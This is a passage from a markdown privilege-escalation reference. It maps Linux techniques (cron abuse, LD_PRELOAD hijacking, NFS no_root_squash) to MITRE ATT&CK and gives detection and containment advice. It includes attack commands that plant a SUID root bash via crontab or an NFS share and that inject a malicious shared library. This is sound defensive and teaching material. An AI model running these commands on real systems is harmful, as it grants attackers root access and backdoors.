      # Adding malicious cron entry (attack)
     echo "* * * * * root chmod u+s /bin/bash" >> /etc/crontab
     ```

   - **MITRE ATT&CK**: T1053.003 (Scheduled Task/Job: Cron)
   - **Detection Method**: Cron file modification monitoring, unusual cron activities
   - **Containment Strategy**: Restrict cron file permissions, monitor for unauthorized changes

2. **Library Preloading**
   - **Description**: Using LD_PRELOAD to inject malicious code into privileged processes
   - **Common Vectors**: SUID binaries that don't sanitize environment, writable library paths
   - **Example Commands**:

     ```bash
     # Creating malicious shared object (attack)
     gcc -shared -fPIC -o /tmp/malicious.so /tmp/malicious.c

     # Using LD_PRELOAD to inject (attack)
     LD_PRELOAD=/tmp/malicious.so program
     ```

   - **MITRE ATT&CK**: T1574.006 (Dynamic Linker Hijacking)
   - **Detection Method**: Monitor LD_PRELOAD usage, track shared object loading
   - **Containment Strategy**: Configure SUID binaries to ignore LD_PRELOAD, restrict library paths

3. **NFS No_Root_Squash**
   - **Description**: Exploiting misconfigured NFS shares that don't squash root privileges
   - **Common Vectors**: NFS exports with no_root_squash option
   - **Example Commands**:

     ```bash
     # Finding vulnerable NFS shares
     showmount -e target

     # Mounting and exploiting (attack)
     mount -t nfs target:/share /mnt
     cp /bin/bash /mnt/backdoor
     chmod u+s /mnt/backdoor
     ```

   - **MITRE ATT&CK**: T1210 (Exploitation of Remote Services)
   - **Detection Method**: Monitor NFS mounts, track file permission changes on NFS shares
   - **Containment Strategy**: Remove no_root_squash option, restrict NFS access

## Windows Privilege Escalation

### Service Vulnerabilities
